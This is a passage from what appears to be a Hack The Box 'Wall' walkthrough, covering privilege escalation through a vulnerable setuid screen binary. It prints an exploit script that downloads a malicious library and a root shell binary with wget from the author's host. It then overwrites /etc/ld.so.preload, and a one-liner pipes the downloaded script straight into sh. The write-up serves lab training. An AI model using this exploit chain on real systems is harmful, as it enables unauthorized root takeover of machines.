 Sweet.

## Privilege Escalation

During enumeration of `www-data`\'s account, I noticed a vulnerable version of `screen` was installed.

<a class="image-popup">
![0c657cee.png](/assets/images/posts/wall-htb-walkthrough/0c657cee.png)
</a>

The exploit at EDB-ID [41154](https://www.exploit-db.com/exploits/41154) serves our need but to play it safe, I'm compiling the evil library (lines 11-20) and executable (lines 25-32) on my own machine. And since, my SimpleHTTPServer is still running, I can pull these files into the machine with `wget`.

Assuming the library and executable are compiled, the exploit script then becomes like this.

<div class="filename"><span>rootme.sh</span></div>

```bash
#!/bin/bash
HOST=10.10.12.100
wget http://$HOST/libhax.so
wget http://$HOST/rootshell
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/var/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
```

Exploit it on the the machine like so.

```
$ wget -O- http://10.10.12.100/rootme.sh | sh && ./rootshell
```

<a class="image-popup">
![07b2826a.png](/assets/images/posts/wall-htb-walkthrough/07b2826a.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/208
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/